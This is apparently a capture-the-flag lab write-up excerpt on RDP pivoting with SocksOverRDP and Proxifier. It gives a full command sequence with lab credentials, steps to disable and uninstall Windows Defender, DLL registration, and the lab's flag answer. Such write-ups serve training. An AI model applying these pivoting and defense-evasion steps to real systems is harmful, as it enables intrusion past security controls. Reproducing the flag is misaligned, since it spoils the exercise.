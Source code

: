 #### **Lab Solution Summary**
```bash
# Complete command sequence:
# Pwnbox:
wget https://github.com/nccgroup/SocksOverRDP/releases/download/v1.0/SocksOverRDP-x64.zip
wget https://www.proxifier.com/download/ProxifierPE.zip
unzip *.zip
xfreerdp /v:10.129.42.198 /u:htb-student /p:HTB_@cademy_stdnt!

# Pivot Host (10.129.42.198):
# 1. Disable Defender, 2. Transfer files, 3. regsvr32.exe SocksOverRDP-Plugin.dll
# 4. mstsc.exe → 172.16.5.19 (victor:pass@123)

# Domain Controller (172.16.5.19):
# 1. Uninstall-WindowsFeature -Name Windows-Defender
# 2. Transfer SocksOverRDP-Server.exe, 3. Run as Admin

# Pivot Host (continued):
# 1. netstat -antb | findstr 1080, 2. Run Proxifier as Admin
# 3. Configure SOCKS5 127.0.0.1:1080, 4. mstsc.exe → 172.16.6.155 (jason:WellConnected123!)

# Final Target (172.16.6.155):
# type Desktop\Flag.txt → H0pping@roundwithRDP!
```

---

## **8. Troubleshooting Common Issues**

### **DLL Registration Failures**
```powershell
# Problem: regsvr32.exe fails
# Error: "The module 'SocksOverRDP-Plugin.dll' failed to load"

# Solutions:
1. Run PowerShell as Administrator
   Right-click PowerShell → Run as Administrator

2. Disable Windows Defender completely
   Windows Security → Virus & threat protection → Manage settings
   Turn OFF all protection features

3. Check file integrity
   dir SocksOverRDP-Plugin.dll
   # Verify file exists and is not quarantined

4. Use full path
   regsvr32.exe "C:\Users\htb-student\Desktop\SocksOverRDP-Plugin.dll"
```

### **RDP Connection Issues**
```powershell
# Problem: Cannot connect to internal targets
# Error: "Remote Desktop can't connect to the remote computer"

# Solutions:
1. Verify network connectivity
   ping 172.16.5.19
   Test-NetConnection 172.16.5.19 -Port 3389

2. Check credentials
   # Ensure exact username/password
   # victor:pass@123 (not victor@domain)
```